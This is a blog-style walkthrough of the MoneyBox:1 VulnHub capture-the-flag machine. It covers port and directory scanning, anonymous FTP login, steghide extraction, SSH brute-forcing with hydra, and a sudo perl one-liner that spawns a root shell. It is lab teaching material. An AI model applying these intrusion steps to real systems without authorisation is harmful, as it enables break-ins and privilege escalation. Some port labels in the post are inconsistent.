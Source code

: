 ```yaml
---
title: MONEYBOX-1 VULNHUB WALKTHROUGH
date: 2023-10-16 03:15:00 +0300
categories: [WALKTHROUGH, VULNHUB]
tags: [Moneybox:1, ctf, boot2root]
toc: true
---
```


## INTRODUCTION
In this post, I'll walk you through how I completed the MoneyBox:1 vulnhub machine, happy hacking!
## SETTING UP
Download the vulnerable machine from <https://www.vulnhub.com/entry/moneybox-1,653/> and set up in a virtual environment, preferably Virtualbox.
## FINDING OPEN PORTS & SERVICES
A quick nmap scan reveals three services running on the machine.
```bash
[0t@kali ~]$ nmap 192.168.56.3
Nmap scan report for 192.168.56.3
Host is up (0.00077s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE   SERVICE
21/tcp  open    ssh
22/tcp  open    ssh
80/tcp  open    http
```
### 80/tcp HTTP
The site doesn't reveal much at first glance.
![Desktop View](https://entyllom.sirv.com/Images/web.png){: width="972" height="589" }
_Website home page_

The next step is to find hidden directories on the site using dirb.
```bash
[0t@kali ~]$ dirb http://192.168.56.3

 ----------------
 DIRB v2.22
 By The Dark Raver
 ----------------

 START_TIME: Sun Oct 15 08:42:23 2023
 URL_BASE: http://192.168.56.3/
 WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

 ----------------

 GENERATED WORDS: 4612

 ---- Scanning URL: http://192.168.56.3/ ----
 ==> DIRECTORY: http://192.168.56.3/blogs/
 + http://192.168.56.3/index.html (CODE:200|SIZE:621)
 + http://192.168.56.3/server-status (CODE:403|SIZE:277)

 ---- Entering directory: http://192.168.56.3/blogs/ ----
 + http://192.168.56.3/blogs/index.html (CODE:200|SIZE:353)

 ---------------
 END_TIME: Sun Oct 15 08:42:26 2023
 DOWNLOADED: 9224 - FOUND: 3
```

From the result, there's a hidden directory: /blogs

Finally, a hint;
![Desktop View](https://entyllom.sirv.com/Images/dirbscanresult.jpg){: width="972" height="589" }
_Hint on 192.168.56.3/blogs/ source code_

Following the hints and inspecting the source code leads to a Secret Key which might be useful...
![Desktop View](https://entyllom.sirv.com/Images/hintresult.jpg){: width="972" height="589" }
_Hint on 192.168.56.3/S3cr3t-T3xt/ source code_

### 21/tcp FTP
Next, I tried connecting to the FTP Server using the default FTP anonymous login
```
Username: anonymous
Password: <leave blank>
```
Login to FTP using the above credentials
```bash
[0t@kali ~]$ ftp 192.168.56.3
Connected to 192.168.56.3.
220 (vsFTPd 3.0.3)
Name (192.168.56.3:0t): anonymous
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

Surprisingly, I'm in!
The ftp server has an image file `/trytofind.jpg`{: .filepath}. Next, extracting hidden data from the image using steghide gives us another file `/data.txt`{: .filepath}.
##
The password for extraction is the Secret Key found on the sites /S3cr3t-T3xt/ source code.

```bash
[0t@kali ~]$ steghide extract -sf trytofind.jpg
Enter passphrase:
wrote extracted data to "data.txt"
```

```text
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
                  
```
{: file='/data.txt'}

### 21/tcp SSH
Since I already found a user `renu`, I decided to bruteforce the ssh login password using hydra.

![Desktop View](https://entyllom.sirv.com/Images/sshlogin1.png){: width="972" height="589" }
#### The 1st flag
![Desktop View](https://entyllom.sirv.com/Images/flag1.png){: width="972" height="589" }

#### The 2nd flag
Trying to find what else could be on renu's account leads to a 2nd flag.
![Desktop View](https://entyllom.sirv.com/Images/flag2.png){: width="972" height="589" }


Having found a second user `lily`, trying to ssh into their account is the first thing that comes to mind. The ssh login doesn't require a password because it uses an encryption key.
## PRIVILEGE ESCALATION
Running `sudo -l` shows that the user `lily` can run `/usr/bin/perl` with root permission.
`/usr/bin/perl` is a path to a perl compiler which can be used for privilege escalation using a perl script `sudo /usr/bin/perl -e 'exec "/bin/bash"'`
![Desktop View](https://entyllom.sirv.com/Images/root.png){: width="972" height="589" }


The lab requires 3 flags to complete, so one more to finish.

I used `find / -type f -name '*.txt'` to get all text files in the computer instead of moving one directory at a time looking for the final flag.
![Desktop View](https://entyllom.sirv.com/Images/roottxt.jpg){: width="972" height="589" }
### The 3rd flag
The final flag is in `/root/.root.txt`{: .filepath} which is a hidden file.

`cat /root/.root.txt`{: .filepath} to get the last flag.

![Desktop View](https://entyllom.sirv.com/Images/flag3.png){: width="972" height="589" }

COMPLETED!
